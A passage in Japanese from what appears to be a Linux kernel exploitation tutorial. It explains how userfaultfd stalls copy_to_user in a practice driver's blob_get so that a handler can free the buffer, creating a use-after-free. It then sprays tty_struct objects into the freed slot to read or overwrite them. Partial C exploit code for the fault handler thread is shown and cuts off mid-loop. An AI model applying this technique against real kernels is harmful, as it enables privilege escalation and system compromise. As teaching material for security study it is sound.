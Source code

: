   <img src="img/uffd_uafr.png" alt="userfaultfdによるUse-after-Free" style="width:720px;">
</center>

`tty_struct`と同じサイズ帯(kmalloc-1024)で確保したバッファ`victim`に対して`blob_get`を呼びます。この際userfaultfdを設定したアドレスを渡すと、`blob_get`中の`copy_to_user`でページフォルトが発生してハンドラが呼ばれます。排他制御をしていないためハンドラ中から`blob_del`が呼べて、その結果`victim`は解放されます。
さらに、`tty_struct`をsprayすると先ほど解放した`victim`の領域にttyオブジェクトが確保されます。あとはハンドラから適当なバッファを渡し、復帰すれば`copy_to_user`で`victim`のアドレスからデータがコピーされるため、ユーザー空間にttyオブジェクトがコピーされます。
同じ原理で`blob_set`を呼べばUAFによるオブジェクトの書き換えも可能です。コードを書いてUAFを確認してみましょう。

```c
cpu_set_t pwn_cpu;

int victim;
char *buf;

static void* fault_handler_thread(void *arg) {
  static struct uffd_msg msg;
  struct uffdio_copy copy;
  struct pollfd pollfd;
  long uffd;
  static int fault_cnt = 0;

  /* メインスレッドと同じCPUで動かす */
  if (sched_setaffinity(0, sizeof(cpu_set_t), &pwn_cpu))
    fatal("sched_setaffinity");

  uffd = (long)arg;

  puts("[+] fault_handler_thread: waiting for page fault...");
  pollfd.fd = uffd;
  pollfd.events = POLLIN;

  while (poll(&pollfd, 1, -1) > 0) {
```

[^1]: 初回アクセス時にページフォルトを発生させたいので`MAP_POPULATE`を付けていません。
[^2]: 直接`printf`すると、`printf`関数内でフォルトが発生してハンドラ中の`puts`や`printf`とバッファリングのデッドロックが発生してプログラムが停止するので注意しましょう。カーネルexploitの文脈では、カーネル空間からフォルトを発生されるので気にする必要はありません。